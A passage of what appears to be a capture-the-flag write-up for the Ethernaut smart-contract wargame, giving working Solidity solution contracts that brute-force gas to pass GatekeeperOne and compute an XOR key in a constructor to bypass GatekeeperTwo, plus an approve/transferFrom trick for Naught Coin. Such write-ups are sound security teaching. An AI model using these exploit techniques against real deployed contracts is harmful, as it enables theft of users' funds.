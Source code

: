 ```solidity
    function forwardTransaction() public {
        for (uint256 i = 30000; i < 40000; ++i) {
            (bool sent, bytes memory data) = address(gatekeeperOne).call{
                gas: i
            }(abi.encodeWithSignature("enter(bytes8)", key));
        }
    }
}
```

# 14. GateKeeper Two

Gate one is as same as the previous level[.](http://level.In) The second gate checks that the calling contract should have zero size. The constructor can be helpful here. The constructor is called once when the contract is created and at that time the `extcodesize(size of the contract)` is 0. We can write our code in the constructor of the contract to bypass gate two. Gate three utilizes simple xor properties, xor of 2 same numbers is 0 and xor of 0 and a number is that number. The expression $uint64(0) - 1$ is simply the max value of uint64. So our key should be

```solidity
uint64 key = uint64(bytes8(keccak256(abi.encodePacked(address(this)))) ^ uint64Max
```

Solution contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./GatKeeperTwo.sol";

contract Test {
    GatekeeperTwo public gatekeepertwo;

    constructor() public {
        gatekeepertwo = GatekeeperTwo(
            0xFbcFC31a63672cF5a58B35EEfA37e072B7584476
        );
        uint64 mx = 18446744073709551615;
        uint64 x = uint64(bytes8(keccak256(abi.encodePacked(address(this)))));
        uint64 keyresult = x ^ mx;
        gatekeepertwo.enter(bytes8(keyresult));
    }
}
```

# 15. Naught Coin

To complete this level we must read the [ERC20](https://github.com/ethereum/EIPs/blob/master/EIPS/eip-20.md) Spec carefully. We can use the **transferFrom** method of the ERC20 contract which has not been overridden in the **Naught Coin** contract. First, we have to approve our own wallet to use our tokens, we can do that using the `approve()`.
